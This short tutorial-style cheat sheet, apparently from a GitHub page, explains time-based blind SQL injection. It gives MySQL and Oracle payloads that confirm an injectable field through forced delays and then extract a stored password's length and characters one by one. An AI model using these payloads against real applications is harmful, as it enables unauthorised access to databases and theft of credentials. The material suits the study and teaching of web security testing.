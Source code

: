 This technique introduces delays to confirm whether a condition is true.

## 1. Verify Vulnerability with a Delay

For **MySQL** (SLEEP function):
```sql
' AND SLEEP(5) --  
```
For **Oracle** (DBMS_LOCK.sleep function):
```sql
' AND DBMS_LOCK.sleep(5) --  
```
If the response is **delayed**, the injection is working.

## 2. Extract Password Length
```sql
' AND IF(LENGTH(password)=10, SLEEP(5), 0) --  
```
If the delay occurs, the password is **10 characters long**.

## 3. Extract Each Character Using Delay

For **MySQL**:
```sql
' AND IF(SUBSTRING(password,1,1)='a', SLEEP(5), 0) --  
```
For **Oracle**:
```sql
' AND CASE WHEN SUBSTR(password,1,1)='a' THEN DBMS_LOCK.sleep(5) ELSE NULL END --  
```
Repeat this for each character to reconstruct the full password.
